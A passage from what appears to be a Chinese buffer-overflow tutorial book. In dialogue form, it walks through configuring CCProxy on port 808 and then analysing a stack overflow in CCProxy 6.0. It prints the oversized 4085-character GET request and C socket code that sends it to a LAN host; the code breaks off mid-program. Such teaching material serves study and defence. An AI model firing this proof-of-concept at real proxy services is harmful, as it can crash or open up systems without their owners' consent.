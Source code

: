 ![](img/Q 版缓冲区溢出教程 214259.jpg)

“所有常用的服务都已经配置好了。我们看，HTTP 代理服务采用的是 808 端口。所以在内部其他机器上，点击 IE 菜单的‘工具栏→Internet’选项，在弹出对话框中选择‘连接’选项卡，再点击‘局域网设置’，就可设置浏览器的代理为安装 CCProxy 主机的 IP，端口为 808，如图 7－4。”

![](img/Q 版缓冲区溢出教程 214403.jpg)

“这下可以通过 CCProxy 代理浏览外面的网页了。”

“哦，好爽啊！”

“嗯，除了 808 端口，CCProxy 还开放了 1090、2121 等端口。CCProxy 6.0 版本有多处漏洞，这里我们就分析对 808 端口请求超长‘GET’字符串时，会引发的缓冲区溢出漏洞。”

# 7.1.2 漏洞的定位和利用

### 7.1.2 漏洞的定位和利用

“我们用 VC 写一个程序，往 CCProxy 的 808 端口发送超长字符串，其格式如下：”

```
GET \AAAAAAAAAAAAAA（4085 个 A） HTTP/1.0\x0D\x0A\x0D\x0A 
```

“发送程序 4085byte.cpp（光盘有收录）比较简单，就是网络通信的客户端程序。给出源代码如下，大家可以再巩固一下 socket 编程。”

```
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"Ws2_32")
int main()
{
    WSADATA ws;
    SOCKET s;
    int ret;
    char buf[5000];
    int i;
    int nLen;
    //初始化 wsa
    WSAStartup(MAKEWORD(2,2),&ws);
    //建立 socket
    s=WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    //连接对方 808 端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(808);
    server.sin_addr.s_addr=inet_addr("192.168.3.151");
    //连接！
    if (connect(s,(struct sockaddr *)&server,sizeof(server) ) < 0)
    {
        printf("connect error");
        return -1;
    }
    nLen = 0;
    strcpy(buf, "GET /");
    nLen += sizeof("GET /")-1;
    for(nLen; nLen<4080+5; nLen++)
    {
        buf[nLen] = 'A';
    }
    buf[nLen] = '\0';
    strcat(buf, " HTTP/1.0\x0D\x0A\x0D\x0A");
    nLen += sizeof(" HTTP/1.0\x0D\x0A\x0D\x0A")-1;
    //构造字符串后，发送
    send(s, buf, nLen , 0);
    printf("send OK!");
```